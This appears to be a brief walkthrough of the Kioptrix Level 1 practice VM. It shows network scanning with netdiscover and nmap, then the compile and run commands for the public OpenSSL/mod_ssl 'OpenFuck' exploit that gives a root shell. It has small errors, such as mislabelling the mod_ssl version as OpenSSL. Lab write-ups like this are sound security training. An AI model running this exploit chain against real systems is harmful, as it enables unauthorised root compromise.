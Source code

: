 # Kiotrix Level 1
### Setup:
1. Download the Kioptrix VM from [Kioptrix level 1](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/).
2. Use RAR to extract the compressed file.
3. Launch VMware player and select the "Kioptrix level 1.vmx" file.(since Kipotrix uses DHCP, I used Bridged Networking)
4. Create a Kioptrix_1 directory within root's home directory, on the system.
### Information Gathering:
1. We will scan our network, so in terminal type netdiscover(is a ARP scanner).
-----netdiscover image--------
2. So the ip of --ip-- will be our Kioptrix machine. We will check for open ports and running services on the VM.
For that Type "nmap -sS -A -n --ip--"
-----nmap image--------
We can see that we have TCP/22 Open(SSH), TCP/80 Open(HTTP) which is running in Apache version 1.3.20 and Apache is also running OpenSSL 2.8.4.
3. In researching OpenSSL 2.8.4, we came across the OpenSSL [OpenF**K](https://github.com/heltonWernik/OpenLuck) exploit.
### Exploit
1. Let's Download the exploit to your kali machine.
2. Install ssl-dev library
   "apt-get install libssl-dev". 
3. Compile 
   "gcc -o OpenFuck OpenFuck.c -lcrypto"
4. Running the Exploit 
   "./OpenFuck"
   ./OpenFuck 0x6b [Target Ip] [port] -c 40
5. Damn you got a Root Shell.
### Closing:
From this VM we learned about basics in tool usage and exploitation.

## Thanks For Reading!